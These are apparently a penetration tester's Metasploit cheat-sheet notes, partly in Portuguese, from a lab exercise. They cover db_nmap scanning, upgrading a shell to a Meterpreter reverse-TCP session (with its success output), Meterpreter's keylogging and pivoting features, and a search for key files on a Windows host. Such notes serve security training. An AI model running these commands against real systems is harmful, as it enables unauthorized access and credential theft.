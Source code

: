 nmap and store results
```
db_nmap -sC -sV -v -Pn <IP>
```

show previous hosts
```
hosts
```

consult previous nmap results
```
services
services 172.30.0.103
```

Após conseguir uma shell evoluir para meterpreter:
```
meterpreter > background

use post/multi/manage/shell_to_meterpreter
msf6 post(shell_to_meterpreter) > set SESSION 1
msf6 post(shell_to_meterpreter) > run

# mensagem de êxito
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.2.16.190:4433 
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > 
[*] Sending stage (203846 bytes) to 10.10.244.106
[*] Meterpreter session 2 opened (10.2.16.190:4433 -> 10.10.244.106:49197) at 2025-04-01 11:56:18 -0400
[*] Stopping exploit/multi/handler

> sessions -i 2
```
Meterpreter permite:    
- Upload/download de arquivos.
- Keylogging.
- Pivoting (redirecionamento de tráfego).     
- Migração para outros processos.
## meterpreter
```

search -f *key* C:\\
```
# windows
**enumerar versão**
```
systeminfo
```
